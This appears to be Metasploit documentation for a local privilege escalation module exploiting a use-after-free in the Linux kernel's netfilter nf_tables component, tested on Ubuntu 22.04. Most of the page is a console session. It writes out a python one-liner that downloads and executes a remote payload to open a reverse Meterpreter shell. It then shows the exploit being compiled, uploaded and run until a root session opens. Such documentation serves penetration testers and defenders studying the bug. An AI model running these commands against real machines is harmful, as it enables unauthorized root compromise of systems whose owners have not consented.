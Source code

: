 ## Vulnerable Application

A use-after-free vulnerability in the Linux kernels netfilter: nf_tables component can be
exploited to achieve local privilege escalation. The nft_verdict_init() function allows
positive values as drop error within the hook verdict, and hence the nf_hook_slow() function
can cause a double free vulnerability when NF_DROP is issued with a drop error which
resembles NF_ACCEPT.

Devices with a WiFi interface will likely be unstable with this exploit and crash.

Failed exploitation will likely HARD crash the system or put it into an unreliable state
and it will need a physical reset/reboot.

Tested against a VM of Ubuntu 22.04 (Linux 5.15.0-60-generic)

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell
4. Do: `use exploit/linux/local/netfilter_nf_tables_priv_esc`
5. Do: `run`
6. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04 with kernel 5.15.0-60-generic

Get initial shell.

```
resource (netfilter)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (netfilter)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (netfilter)> set uripath a
uripath => a
resource (netfilter)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://1.1.1.1:8080/a
[*] Server started.
[*] Run the following command on the target machine:
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://1.1.1.1:8080/a', context=ssl._create_unverified_context());exec(r.read());"
[*] 2.2.2.2   web_delivery - Delivering Payload (432 bytes)
[*] Sending stage (24768 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:38082) at 2024-11-07 14:15:40 -0500
```

Privilege escalate

```
resource (netfilter)> use exploit/linux/local/netfilter_nf_tables_priv_esc
resource (netfilter)> set session 1
session => 1
resource (netfilter)> set lport 9879
lport => 9879
resource (netfilter)> set verbose true
verbose => true
resource (netfilter)> set compile True
compile => True
msf6 exploit(linux/local/netfilter_nf_tables_priv_esc) > 
msf6 exploit(linux/local/netfilter_nf_tables_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/netfilter_nf_tables_priv_esc) > exploit

[*] Started reverse TCP handler on 1.1.1.1:9879 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Kernel version 5.15.0-60-generic appears to be vulnerable
[*] Creating /tmp/.FQ977lR1fc
[*] Creating directory /tmp/.FQ977lR1fc
[*] /tmp/.FQ977lR1fc created
[+] musl-tools is installed
[*] Creating upload zip
[*] Finished creating exploit source zip, uploading...
[*] Unzipping exploit code on remote system
[*] Compiling
musl-gcc -I./include -I./include/linux-lts-6.1.72 -Wall -Wno-deprecated-declarations src/main.c src/env.c src/net.c src/nftnl.c src/file.c -o ./exploit -static ./lib/libnftnl.a ./lib/libmnl.a
src/main.c:197:13: warning: ‘breached_the_mainframe’ defined but not used [-Wunused-function]
  197 | static void breached_the_mainframe()
      |             ^~~~~~~~~~~~~~~~~~~~~~
strip ./exploit
[*] Uploading payload executable to /tmp/.FQ977lR1fc/.usnoXVKwh
[*] Writing '/tmp/.FQ977lR1fc/.usnoXVKwh' (282 bytes) ...
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2

[*] [*] creating user namespace (CLONE_NEWUSER)...
[*] [*] creating network namespace (CLONE_NEWNET)...
[*] [*] setting up UID namespace...
[*] [*] configuring localhost in namespace...
[*] [*] setting up nftables...
[*] [+] running normal privesc
[*] [*] waiting for the calm before the storm...
[*] [*] sending double free buffer packet...
[*] [*] spraying 16000 pte's...
[*] [*] checking 16000 sprayed pte's for overlap...
[*] [+] confirmed double alloc PMD/PTE
[*] [+] found possible physical kernel base: 000000004da00000
[*] [-] failed to find correct modprobe_path: trying to find new kernel base...
[*] [+] found possible physical kernel base: 0000000058600000
[*] [-] failed to find correct modprobe_path: trying to find new kernel base...
[*] [+] found possible physical kernel base: 000000005e400000
[*] [-] ^false positive. skipping to next one
[*] [-] ^false positive. skipping to next one
[*] [-] failed to find correct modprobe_path: trying to find new kernel base...
[*] [+] found possible physical kernel base: 0000000064400000
[*] [-] failed to find correct modprobe_path: trying to find new kernel base...
[*] [+] found possible physical kernel base: 000000006ae00000
[*] [-] ^false positive. skipping to next one
[*] [-] failed to find correct modprobe_path: trying to find new kernel base...
[*] [+] found possible physical kernel base: 0000000087200000
[*] [-] ^false positive. skipping to next one
[*] [-] failed to find correct modprobe_path: trying to find new kernel base...
[*] [+] found possible physical kernel base: 000000008d000000
[*] [-] ^false positive. skipping to next one
[*] [-] ^false positive. skipping to next one
[*] [-] ^false positive. skipping to next one
[*] [-] failed to find correct modprobe_path: trying to find new kernel base...
[*] [+] found possible physical kernel base: 0000000090800000
[*] [-] ^false positive. skipping to next one
[*] [-] ^false positive. skipping to next one
[*] [-] failed to find correct modprobe_path: trying to find new kernel base...
[*] [+] found possible physical kernel base: 000000009da00000
[*] [-] failed to find correct modprobe_path: trying to find new kernel base...
[*] [+] found possible physical kernel base: 00000000a2e00000
[*] [-] ^false positive. skipping to next one
[*] [-] ^false positive. skipping to next one
[*] 2.2.2.2 - Meterpreter session 1 closed.  Reason: Died


[*] Meterpreter session 2 opened (1.1.1.1:9879 -> 2.2.2.2:46390) at 2024-11-07 14:21:32 -0500
[-] exploit: Interrupted
msf6 exploit(linux/local/netfilter_nf_tables_priv_esc) > 
msf6 exploit(linux/local/netfilter_nf_tables_priv_esc) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 22.04 (Linux 5.15.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
